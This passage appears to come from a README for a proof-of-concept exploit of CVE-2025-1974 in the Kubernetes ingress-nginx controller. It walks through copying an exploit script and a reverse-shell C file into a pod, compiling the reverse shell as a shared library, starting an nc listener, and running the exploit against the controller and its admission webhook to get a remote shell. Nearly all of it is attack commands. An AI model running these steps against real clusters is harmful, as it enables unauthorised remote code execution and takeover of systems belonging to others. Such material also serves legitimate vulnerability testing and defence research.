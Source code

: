      kubectl cp cve-2025-1974.py alpine:/root/cve-2025-1974.py
      kubectl cp shared-library/reverse_shell.c alpine:/root/reverse_shell.c
      ```
    - **Get a shell** on the Alpine pod:
      ```bash
      kubectl exec -it alpine -- sh
      ```
    - **Install dependencies** (`tmux`, `python3`, etc.):
      ```bash
      apk add tmux python3 py3-requests gcc build-base libc-dev openssl-dev curl kubectl
      ```
    - **Compile the reverse shell shared library**:
      > Replace `YOUR_IP_ADDRESS_HERE` and `YOUR_PORT_HERE` in `reverse_shell.c` with the actual IP address and port on which your Alpine pod listens.
      ```bash
      cd /root
      gcc -fPIC -shared -o reverse_shell.so reverse_shell.c -lcrypto
      ```

1. **Use `tmux`** (or multiple `exec` sessions) to split your terminal and run a `nc` listener:
    ```bash
    # Start the listener
    nc -nlvp 1337
    ```

1. **Run `cve-2025-1974.py`** to start the attack:
    ```bash
    cd /root
    python3 cve-2025-1974.py --target="ingress-nginx-controller.ingress-nginx.svc.cluster.local:80" --webhook-target="ingress-nginx-controller-admission.ingress-nginx.svc.cluster.local:443" --engine-path=reverse_shell.so
    ```

    ![cve-2025-1974](./images/cve-2025-1974.png)
